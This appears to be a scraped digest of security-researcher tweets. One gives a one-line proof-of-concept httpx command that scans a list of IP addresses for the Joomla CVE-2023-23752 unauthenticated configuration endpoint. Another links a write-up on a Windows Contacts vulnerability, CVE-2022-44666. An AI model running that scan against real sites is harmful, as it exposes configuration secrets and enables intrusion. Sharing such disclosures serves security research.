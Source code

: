 <td><img src="pictures/6fa08773006510d7afa8bb4e4ce958268572ef2e8d3a0a2153dfe97e1a743969.jpg" alt="6fa08773006510d7afa8bb4e4ce958268572ef2e8d3a0a2153dfe97e1a743969.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1626464189261942786 _at 2023-02-17, 06:10:55_**
<blockquote>
CVE-2023-23752
Joomla webservice endpoint access
PoC
httpx -l ip.txt -path '/api/index.php/v1/config/application?public=true'
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>438</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1626456640663724033 _at 2023-02-17, 05:40:55_**
<blockquote>
CVE-2022-44666: Write-up for another forgotten Windows vulnerability (0day): Microsoft Windows Contacts (VCF/Contact/LDAP) syslink control href attribute escape, which was not fully fixed as CVE-2022-44666 in the patches https://t.co/5UaRuBytyg
</blockquote>
